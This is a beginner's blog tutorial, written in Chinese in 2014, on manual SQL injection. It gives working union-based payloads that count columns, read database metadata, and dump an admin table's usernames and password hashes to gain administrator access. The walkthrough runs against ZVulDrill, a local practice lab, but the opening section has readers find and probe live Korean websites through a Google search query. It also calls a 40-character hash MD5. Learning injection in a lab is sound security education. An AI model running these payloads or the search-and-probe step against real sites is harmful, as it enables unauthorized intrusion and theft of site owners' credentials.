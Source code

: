 title: 手动sql注入（初级篇）
date: 2014-07-15 20:36
tags:
- 渗透测试
- SQL 注入
categories: SQL 注入
---

我也是才学 sql 注入一个星期，此篇文章是学给初学者看的
推荐书籍 [《sql注入攻击与防御》](http://www.ddooo.com/softdown/50160.htm)
<!--more-->

# I、找到存在sql注入的网站
## ① 方法
- 在google中输入 site:kr inurl:php?id=
- 打开出现的网址，在网址后面添加 ’  （英文逗号）如果页面出现跳转，说明可能存在sql注入

## ② 原理
一般网址都是类似  search.php?search=hello
相应的sql语句 可能是：
```
select * from table_name where column_name='hello'
```
如果在网址后面添加 ' 则sql语句为：
```
select * from table_name where column_name='hello''
```
如果网站没有进行sql注入过滤，会报错。

## ③ 演练平台
在 GitHub 有个 Web 漏洞演练项目 [ZVulDrill](https://github.com/710leo/ZVulDrill)，可以下载后部署在自己的电脑上（这里我就不教大家部署了，熟悉Web编程的大部分都会）

网页内容如下
![](https://img.blog.csdn.net/20140715201016711)

# II、检测字段长度
```
http://localhost/ZVulDrill-master/search.php?search=hello%' order by 1--%20
```
相当于sql语句
```
select * from table_name where colmun_name like '%hello%' order by 1 -- '
```

<font color="red">Tips：</font>
- MySQL有三种注释 -- 是其中一种 但是 -- 后面要跟一个空格才有效。
- 但是网址会自动去掉最后一个空格需要手动输入%20
- 注释后面的sql语句不执行

此时页面没有出错，用同样的方式 添加 order by 10
页面出错，然后 order by 5 出错，order by 4 页面正确
说明字段长  4

# III、查看数据库信息
## ① 方法:使用union语句提取数据
```
http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union select 1,2,2,4 --%20
```
sql语句
```
select * from table_name where column_name like '%hello%' and 1=2 union select 1,2,3,4
```
union前的sql语句中 where条件恒为假，结果集为空，整个sql语句返回的是union后面的结果集
![](https://img.blog.csdn.net/20140715201042343)

## ② 获取MySQL version user database 等相关信息
如上图所示，页面上显示 1,2 ，可以利用这个来显示我们需要的信息
```
http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union select 1,version(),user(),4 --%20
```
即  将 2，3 换成 version(),user()
页面如下
![](https://img.blog.csdn.net/20140715201431834)

同理将 user() 换成 database()  得到数据库名  zvuldrill

- user() ------------    wkdty@localhost
- version()  --------------   5.6.17 （5.0以上的版本都带有一个
- information_schema 的虚拟库里面存放的是所有库的信息.）
- database()   -------------  zvuldrill
# IV、获取数据库数据
## ① 获取表名
```
http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union select 1,2,GROUP_CONCAT(DISTINCT table_name),4 from information_schema.columns where table_schema='zvuldrill'--%20
```
![](https://img.blog.csdn.net/20140715202557175)
数据库中有3张表，对我们最有用的是admin这张表，以管理员身份进入网站可以看到各种信息
## ② 获取字段名
```
http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union select 1,2,GROUP_CONCAT(DISTINCT column_name),4 from information_schema.columns where table_name='admin'--%20
```
![](https://img.blog.csdn.net/20140715202931238)
## ③ 获取数据
```
http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union select 1,2,GROUP_CONCAT(DISTINCT admin_id,admin_name,admin_pass),4 from admin--%20
```
![](https://img.blog.csdn.net/20140715203207348)
- admin_id：1 
- admin_name：admin
- admin_pass：d033e22ae348aeb5660fc2140aec35850c4da997(md5解密之后  得到admin)
根据用户登录入口，找到后台登录入口  ，以管理员身份进入网站

